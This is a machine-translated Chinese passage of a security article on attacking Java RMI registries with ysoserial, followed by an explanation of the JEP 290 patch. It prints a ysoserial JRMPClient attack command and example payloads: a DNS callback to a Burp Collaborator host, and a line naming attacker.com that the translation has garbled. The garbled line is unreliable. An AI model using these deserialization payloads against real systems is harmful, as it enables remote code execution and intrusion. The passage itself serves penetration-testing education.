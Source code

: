 或者

```
java -cp ysoserial.jar ysoserial.exploit.JRMPClient host port payloadname command
```

![](img/94cfb225185bf18fa6a0e1d711fe3b04.png)

其中 *payloadname* 是一个 ysoserial 有效载荷，而 *command* 是该有效载荷要执行的命令。例如， *payloadname 命令*可以是:

*URL DNS http://mycollabid.burpcollaborator.net*

*公选 6《平 attacker.com-C3》*

在这两种情况下，ysoserial 将执行以下操作

在*主机:端口*连接到远程注册表

尝试注入序列化的有效负载

如果 PayloadName 可以被反序列化(所有的小工具都在远程类路径上，并且有旧的 java 版本在使用)，那么代码即将被执行

反向外壳/ DNS 查找检查部分在你这边

如上所述，这是一个历史性的方法，但仍然有应用程序与旧 java 硬捆绑在一起，因此值得一试。java 版本不应比 JDK 1.7u21 新，并且不应安装被视为易受攻击的 JEP290 修补程序。

**等一下！**

你喜欢这篇文章吗？想让**了解最新**网络安全内容的最新**？**

[订阅我们的**免费** **简讯** —点击这里](https://newsletter.afine.academy/join)！

[](https://newsletter.afine.academy/join) [## AFINE 网络通讯

点击这里加入！](https://newsletter.afine.academy/join) 

# JEP 290

终止 RMI 注册表免费利用的是名为 JEP 290 的安全补丁。你可以在[这篇伟大的文章](https://mogwailabs.de/blog/2019/03/attacking-java-rmi-services-after-jep-290/)中读到更多关于那个补丁的详细技术信息和它的含义。

简而言之，利用 RMI 注册表仍然是可能的，但是通过指定一个序列化的对象作为远程方法的参数。一个非常重要的注意事项——不是每个参数都可以用序列化对象替换；只有那些*非原始*数据类型。[在这里](https://en.wikibooks.org/wiki/Java_Programming/Primitive_Types)你可以看到哪些数据类型被认为是原语。

请注意，基本类型有相应的所谓包装类，这可能会令人困惑，如下例所示:

原语 *int* —有一个对应的包装类 *java.lang.Integer*

原语 *long* —有一个对应的包装类 *java.lang.Long*
